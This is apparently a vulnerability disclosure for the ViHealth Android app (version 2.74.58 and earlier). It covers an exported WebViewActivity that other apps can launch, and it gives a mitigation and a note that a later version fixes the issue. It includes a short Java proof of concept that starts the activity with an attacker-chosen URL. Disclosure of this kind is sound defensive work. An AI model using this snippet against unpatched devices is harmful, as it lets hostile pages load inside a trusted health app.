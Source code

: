 

Vendor of Product: Viatom Tech                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type:   CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

Discoverer: Edward Warren

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

["activity android:name="com.viatom.baselib.mvvm.web.WebViewActivity" android:exported="true" android:screenOrientation="portrait""]


An attacker could craft a 3rd party app using the following code to load the url of their choice within the context of the exported activity of your application to facilitate malicious actions:


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2dafcbb9-e528-4103-881e-173655970e37)


********************************************************************************************************************************
// Create an Intent to start the exported WebViewActivity of the target app
Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);
********************************************************************************************************************************



**This issue has been fixed today (6/19/23) with version (2.74.62)-shortly after I reported it to the vendor on 6/10/23.
